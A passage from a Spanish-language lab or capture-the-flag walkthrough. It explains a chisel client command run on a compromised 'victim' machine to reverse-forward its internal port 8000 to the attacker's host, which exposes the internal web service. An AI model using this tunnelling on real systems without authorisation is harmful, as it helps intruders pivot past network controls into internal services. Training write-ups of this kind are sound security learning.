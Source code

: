 A continuación ejecutamos lo siguiente en la máquina víctima, tras darle al ejecutable de chisel permisos de ejecución con `chmod +x chisel`:

```bash
./chisel client 10.10.14.17:1234 R:8000:127.0.0.1:8000
```

- Explicación:
	1. Comando `client`:  Especificas a chisel que esta máquina es el cliente, es decir, la máquina víctima.
	2. Parámetro 1 | `'10.10.14.17:1234'`: Es la ip + el puerto especificado anteriormente del servidor.
	3. Parámetro 2 | `R:8000:127.0.0.1:8000`: Aquí le especificamos la ruta a seguir para hacer el port forwarding, es decir, primero le especificamos con `8000` el puerto que nuestra máquina atacante va a estar utilizando; segundo, le especificamos el localhost, es decir, la máquina víctima; por último le especificamos el puerto que vamos a clonar de la máquina víctima, el `8000`.

Nos saldrá esto:

![image](../zimages/Pasted_image_20241105182408.png)

Y en nuestra máquina atacante nos saldrá un aviso:

![image](../zimages/Pasted_image_20241105182439.png)

De esta manera ya podemos acceder a la web del puerto 8000 mediante nuestro navegador, poniendo `localhost:8000`:

![image](../zimages/Pasted_image_20241105182603.png)
